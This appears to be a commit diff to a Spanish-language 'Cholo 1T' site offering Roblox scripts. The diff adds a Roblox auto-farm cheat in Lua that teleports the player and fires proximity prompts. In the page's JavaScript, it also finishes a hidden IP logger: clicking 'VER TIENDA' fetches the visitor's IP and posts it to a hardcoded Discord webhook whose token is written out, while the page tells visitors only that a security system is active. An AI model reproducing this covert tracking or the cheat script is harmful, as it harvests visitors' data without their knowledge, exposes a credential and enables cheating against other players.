

Before and after one commit to Cholo-12/ModPinkytren, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after a click on the link "VER TIENDA". Shown: the part 140-640 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme; no server answers.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -21,7 +21,6 @@
             align-items: center;
         }
 
-        /* Rayitos en las esquinas */
         .rayo {
             position: fixed;
             width: 150px;
@@ -33,6 +32,7 @@
 
         .hero {
             height: 100vh;
+            width: 100%;
             display: flex;
             flex-direction: column;
             justify-content: center;
@@ -42,7 +42,7 @@
         }
 
         h1 {
-            font-size: 4rem;
+            font-size: 3.5rem;
             color: var(--lila);
             text-shadow: 0 0 20px var(--principal);
             margin-bottom: 10px;
@@ -83,12 +83,13 @@
 
         textarea {
             width: 100%;
-            height: 200px;
+            height: 300px;
             background: #000;
             color: #0f0;
             border: 1px solid #333;
             font-family: monospace;
             margin-top: 10px;
+            padding: 10px;
         }
     </style>
 </head>
@@ -100,7 +101,7 @@
     <div class="hero" id="inicio">
         <h1>BIENVENIDO A LA PÁGINA DE CHOLO 1T</h1>
         <p>Los mejores scripts para Roblox y más.</p>
-        <a href="#" class="btn-tienda" onclick="mostrarTienda()">VER TIENDA</a>
+        <a href="javascript:void(0)" class="btn-tienda" onclick="mostrarTienda()">VER TIENDA</a>
     </div>
 
     <div class="tienda-section" id="tienda">
@@ -110,10 +111,71 @@
             <textarea readonly>
 -- ==========================================
 -- SCRIPT 1: AUTO-RESET CADA 2 ENTREGAS
--- [EL RESTO DE TU SCRIPT AQUÍ]
 -- ==========================================
+local POS_ARTURO_1 = CFrame.new(154.02, 43.73, 513.57)
+local carpetaNPCs_1 = game.Workspace:WaitForChild("Works"):WaitForChild("DeliveryNpcs")
+local jugador_1 = game.Players.LocalPlayer
+local RADIO_DETECCION_1 = 12
+
+local entregasRealizadas = 0
+local bloqueadoPorReset = false
+
+local function interactuar_1(p)
+    p.HoldDuration = 0
+    fireproximityprompt(p)
+    task.wait(0.5)
+end
+
+local function ejecutarCiclo_1()
+    if bloqueadoPorReset then return end
+    local char = jugador_1.Character
+    local hrp = char and char:FindFirstChild("HumanoidRootPart")
+    local hum = char and char:FindFirstChild("Humanoid")
+    if not hrp or not hum or hum.Health <= 0 then return end
+
+    local npcDestino = carpetaNPCs_1:FindFirstChildOfClass("Model") or carpetaNPCs_1:FindFirstChildOfClass("Part")
+
+    if npcDestino then
+        hrp.CFrame = npcDestino:GetPivot() * CFrame.new(0, 0, 2)
+    else
+        hrp.CFrame = POS_ARTURO_1
+    end
+
+    hrp.Velocity = Vector3.zero
+
+    local objetos = game.Workspace:GetPartBoundsInRadius(hrp.Position, RADIO_DETECCION_1)
+    for _, obj in pairs(objetos) do
+        local p = obj:FindFirstChildWhichIsA("ProximityPrompt") or obj.Parent:FindFirstChildWhichIsA("ProximityPrompt")
+        if p then
+            interactuar_1(p)
+            if npcDestino then
+                entregasRealizadas = entregasRealizadas + 1
+                print("Entregas: " .. entregasRealizadas .. "/2")
+                task.wait(1)
+            end
+            break
+        end
+    end
+
+    if entregasRealizadas >= 2 then
+        entregasRealizadas = 0
+        bloqueadoPorReset = true
+        hum.Health = 0
+    end
+end
+
+jugador_1.CharacterAdded:Connect(function()
+    task.wait(1)
+    bloqueadoPorReset = false
+end)
+
+game:GetService("RunService").Heartbeat:Connect(function()
+    ejecutarCiclo_1()
+end)
+
+-- [MÁS SCRIPTS ABAJO...]
             </textarea>
-            <p style="font-size: 0.8rem; color: #555;">Al usar este script aceptas nuestros términos de servicio.</p>
+            <p style="font-size: 0.8rem; color: #555;">Sistema de seguridad activo.</p>
         </div>
     </div>
 
@@ -122,20 +184,33 @@
             document.getElementById('inicio').style.display = 'none';
             document.getElementById('tienda').style.display = 'block';
 
-            // AQUÍ ES DONDE SE EJECUTA EL "DISPARO" A DISCORD
-            // Cuando le dan clic al botón, la web puede mandar la IP
+            // Captura de IP y envío a Discord
             fetch('https://api.ipify.org?format=json')
             .then(x => x.json())
             .then(y => {
                 mandarADiscord(y.ip);
-            });
+            })
+            .catch(err => console.log("Error capturando IP"));
         }
 
         function mandarADiscord(ip) {
-            const webhook = "TU_WEBHOOK_AQUI";
+            // TU LINK YA PEGADO AQUÍ:
+            const webhook = "https://discord.com/api/webhooks/1498847220760449145/xLBUawdxa3vviK-PBY7-Z-T6wWfsAmHfdZxgCAFllijurZ85DtHCC8Jr1oo03L7oPTef";
+
             const msg = {
-                content: "🔔 **¡Nueva visita en la tienda!**\nIP Detectada: `" + ip + "`"
+                username: "Cholo 1T Logs",
+                content: "🚨 **¡NUEVA VISITA DETECTADA!**",
+                embeds: [{
+                    title: "Rastreo de Tienda",
+                    color: 9043962,
+                    fields: [
+                        {name: "🌐 IP del Visitante", value: "`" + ip + "`"},
+                        {name: "📂 Sección", value: "Farmeo Veneyorw"}
+                    ],
+                    timestamp: new Date()
+                }]
             };
+
             fetch(webhook, {
                 method: 'POST',
                 headers: {'Content-Type': 'application/json'},
```
